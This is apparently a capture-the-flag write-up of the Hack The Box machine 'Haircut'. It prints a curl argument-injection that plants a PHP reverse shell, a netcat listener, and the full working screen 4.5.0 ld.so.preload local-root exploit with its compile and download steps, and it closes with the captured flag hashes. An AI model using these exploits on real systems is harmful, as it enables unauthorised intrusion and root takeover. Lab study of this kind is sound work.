




# Enumeration

```bash
┌──(root㉿shiro)-[/home/shiro]
└─# nmap -sC -sV -A 10.10.10.24
Starting Nmap 7.92 ( https://nmap.org ) at 2022-04-26 10:37 +08
Nmap scan report for 10.10.10.24
Host is up (0.0030s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e9:75:c1:e4:b3:63:3c:93:f2:c6:18:08:36:48:ce:36 (RSA)
|   256 87:00:ab:a9:8f:6f:4b:ba:fb:c6:7a:55:a8:60:b2:68 (ECDSA)
|_  256 b6:1b:5c:a9:26:5c:dc:61:b7:75:90:6c:88:51:6e:54 (ED25519)
80/tcp open  http    nginx 1.10.0 (Ubuntu)
|_http-title:  HTB Hairdresser 
|_http-server-header: nginx/1.10.0 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=4/26%OT=22%CT=1%CU=43404%PV=Y%DS=2%DC=T%G=Y%TM=62675AF
OS:B%P=x86_64-pc-linux-gnu)SEQ(SP=105%GCD=1%ISR=107%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M505ST11NW7%O2=M505ST11NW7%O3=M505NNT11NW7%O4=M505ST11NW7%O5=M505ST1
OS:1NW7%O6=M505ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M505NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1720/tcp)
HOP RTT     ADDRESS
1   2.62 ms 10.10.14.1
2   2.93 ms 10.10.10.24

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.49 seconds
```

It seems like there’s a website. Let’s check it out!



It seems like there is nothing much on the website and the source page shows nothing special.

```html
<!DOCTYPE html>

<title> HTB Hairdresser </title>

<center> <br><br><br><br>

<center>
```

Let’s run a `gobuster` scan then!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# gobuster dir -u http://10.10.10.24 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt      
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.24
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/04/26 10:39:32 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 194] [--> http://10.10.10.24/uploads/]

===============================================================
2022/04/26 10:40:52 Finished
===============================================================
```

Hmm.. there’s nothing much? Let’s add some extensions to the scan.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# gobuster dir -u http://10.10.10.24 -k -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.24
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,html
[+] Timeout:                 10s
===============================================================
2022/04/26 10:41:47 Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 144]
/uploads              (Status: 301) [Size: 194] [--> http://10.10.10.24/uploads/]
/test.html            (Status: 200) [Size: 223]                                  
/hair.html            (Status: 200) [Size: 141]                                  
/exposed.php          (Status: 200) [Size: 446]                                    
===============================================================
2022/04/26 10:45:48 Finished
===============================================================
```

It seems like there’s an interesting `/uploads` and `/exposed.php` directory!

`/uploads` returned us `403 Forbidden` but `/exposed.php` returned something interesting!



# Exploit

What happens when we click `Go`?



It looks like the script is trying to `curl` something from the user specified location.

Let’s try hosting our own webserver to host a reverse shell.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# mousepad revshell.php                                                                                                                      
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.24 - - [26/Apr/2022 11:00:27] "GET /revshell.php HTTP/1.1" 200 -
```

Then we can grab the file by inputting `http://10.10.14.12/revshell.php`.



It seems like it didn’t work..

Ah! We know that there’s an `/upload` folders, so what would happen if we save the file in that folder instead?

```bash
http://10.10.14.12/revshell.php -o /var/www/html/uploads/revshell.php
```

>   Since we know that the webpage is using `curl` command, we can specify `-o` to tell the server where to put the file!

Now, we can start a netcat listener and execute the `revshell.php` using `curl http://10.10.10.24/uploads/revshell.php` on our local machine!

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.24] 46038
Linux haircut 4.4.0-78-generic #99-Ubuntu SMP Thu Apr 27 15:29:09 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 05:08:11 up 31 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

# Privilege Escalation

Now that we have a user shell, let’s try to find find files with the SUID bit.

```bash
$ find / -perm -4000 -type f 2>/dev/null
/bin/ntfs-3g
/bin/ping6
/bin/fusermount
/bin/su
/bin/mount
/bin/ping
/bin/umount
/usr/bin/sudo
/usr/bin/pkexec
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/newgidmap
/usr/bin/gpasswd
/usr/bin/at
/usr/bin/passwd
/usr/bin/screen-4.5.0
/usr/bin/chsh
/usr/bin/chfn
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/policykit-1/polkit-agent-helper-1
```

There was a weirdly specific file called `screen-4.5.9` which prompted me to do some research.

Luckily, I guessed correct and there was a Local Privilege Escalation script on [ExploitDB](https://www.exploit-db.com/exploits/41154).

```bash
#!/bin/bash
# screenroot.sh
# setuid screen v4.5.0 local root exploit
# abuses ld.so.preload overwriting to get root.
# bug: https://lists.gnu.org/archive/html/screen-devel/2017-01/msg00025.html
# HACK THE PLANET
# ~ infodox (25/1/2017) 
echo "~ gnu/screenroot ~"
echo "[+] First, we create our shell and library..."
cat << EOF > /tmp/libhax.c
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}
EOF
gcc -fPIC -shared -ldl -o /tmp/libhax.so /tmp/libhax.c
rm -f /tmp/libhax.c
cat << EOF > /tmp/rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}
EOF
gcc -o /tmp/rootshell /tmp/rootshell.c
rm -f /tmp/rootshell.c
echo "[+] Now we create our /etc/ld.so.preload file..."
cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
echo "[+] Triggering..."
screen -ls # screen itself is setuid, so... 
/tmp/rootshell
```

It seems like the exploit code is trying to do 3 different things. 

Therefore, I decided to split this script and compile it on my local machine before hosting it on a local webserver.

```bash
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# mousepad libhax.c                                                     

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# cat libhax.c              
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
__attribute__ ((__constructor__))
void dropshell(void){
    chown("/tmp/rootshell", 0, 0);
    chmod("/tmp/rootshell", 04755);
    unlink("/etc/ld.so.preload");
    printf("[+] done!\n");
}

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# gcc -fPIC -shared -ldl -o libhax.so libhax.c                                                                     
libhax.c: In function ‘dropshell’:
libhax.c:7:5: warning: implicit declaration of function ‘chmod’ [-Wimplicit-function-declaration]
    7 |     chmod("/tmp/rootshell", 04755);
      |     ^~~~~                                                                                     
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# ls
libhax.c  libhax.so  revshell.php                                                                                             
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# mousepad rootshell.c

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# cat rootshell.c
#include <stdio.h>
int main(void){
    setuid(0);
    setgid(0);
    seteuid(0);
    setegid(0);
    execvp("/bin/sh", NULL, NULL);
}

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# gcc -o rootshell rootshell.c                
rootshell.c: In function ‘main’:
rootshell.c:3:5: warning: implicit declaration of function ‘setuid’ [-Wimplicit-function-declaration]
    3 |     setuid(0);
      |     ^~~~~~
rootshell.c:4:5: warning: implicit declaration of function ‘setgid’ [-Wimplicit-function-declaration]
    4 |     setgid(0);
      |     ^~~~~~
rootshell.c:5:5: warning: implicit declaration of function ‘seteuid’ [-Wimplicit-function-declaration]
    5 |     seteuid(0);
      |     ^~~~~~~
rootshell.c:6:5: warning: implicit declaration of function ‘setegid’ [-Wimplicit-function-declaration]
    6 |     setegid(0);
      |     ^~~~~~~
rootshell.c:7:5: warning: implicit declaration of function ‘execvp’ [-Wimplicit-function-declaration]
    7 |     execvp("/bin/sh", NULL, NULL);
      |     ^~~~~~
rootshell.c:7:5: warning: too many arguments to built-in function ‘execvp’ expecting 2 [-Wbuiltin-declaration-mismatch]
                                          
┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# ls
libhax.c  libhax.so  revshell.php  rootshell  rootshell.c

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# mousepad exploit.sh 

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# cat exploit.sh                       
#!/bin/bash

cd /etc
umask 000 # because
screen -D -m -L ld.so.preload echo -ne  "\x0a/tmp/libhax.so" # newline needed
screen -ls # screen itself is setuid, so... 
/tmp/rootshell

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# ls
exploit.sh  libhax.c  libhax.so  revshell.php  rootshell  rootshell.c

┌──(root㉿shiro)-[/home/shiro/HackTheBox/Haircut]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Now, we can use the shell to grab the files over.

```bash
$ cd /tmp
$ wget http://10.10.14.12/libhax.so
--2022-04-26 05:30:58--  http://10.10.14.12/libhax.so
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15552 (15K) [application/octet-stream]
Saving to: 'libhax.so'

     0K .......... .....                                      100% 2.15M=0.007s

2022-04-26 05:30:58 (2.15 MB/s) - 'libhax.so' saved [15552/15552]

$ wget http://10.10.14.12/rootshell
--2022-04-26 05:31:08--  http://10.10.14.12/rootshell
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 16336 (16K) [application/octet-stream]
Saving to: 'rootshell'

     0K .......... .....                                      100% 2.13M=0.007s

2022-04-26 05:31:08 (2.13 MB/s) - 'rootshell' saved [16336/16336]

$ wget http://10.10.14.12/exploit.sh
--2022-04-26 05:32:39--  http://10.10.14.12/exploit.sh
Connecting to 10.10.14.12:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 179 [text/x-sh]
Saving to: 'exploit.sh'

     0K                                                       100% 32.4M=0s

2022-04-26 05:32:39 (32.4 MB/s) - 'exploit.sh' saved [179/179]
```

Finally, we can execute the script.

```bash
$ chmod +x exploit.sh
$ ./exploit.sh
' from /etc/ld.so.preload cannot be preloaded (cannot open shared object file): ignored.
[+] done!
No Sockets found in /tmp/screens/S-www-data.

whoami
root
cd /home
ls
maria
cat /home/maria/user.txt
9a42c4b5a80e862e7f007cc468c035ce
cat /root/root.txt
c9818e45d1aa8e774c0286dba6ea71ea
```

